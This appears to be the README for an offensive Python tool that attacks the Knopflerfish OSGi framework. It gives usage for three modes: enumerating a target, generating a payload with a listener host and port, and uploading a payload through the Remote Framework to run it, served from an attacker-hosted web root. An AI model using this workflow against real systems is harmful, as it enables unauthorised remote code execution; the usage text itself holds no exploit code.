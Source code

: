 #KFFT<BR>
Knopflerfish Attack tool

KFT usage and "modes"<BR>
Mode 1 runs an enum scan<BR>
-Checks for default bundle info, HTTPConsole, and if the remote framework is running<BR>
-Usage: python knopflerfucktool.py 1 [rhost] [rport]<BR>
Mode 2 outputs a payload to upload however you like<BR>
-Usage: python knopflerfucktool.py 2 [lhost] [lport]<BR>
-This mode also makes the payload needed for mode 3<BR>
-Requires openJDK 1.8.0 and Eclipse Equinox (eceq.jar)<BR>
Mode 3 uses the KF Remote Framework to upload and run a payload<BR>
-Usage: python knopflerfucktool.py 3 [rhost] [rport] [srvhost] [srvport] [lport]<BR>
-This mode needs the payload from mode 2<BR>
-The payload needs to be host on the web root of http://[srvhost]:[srvport]/<BR>
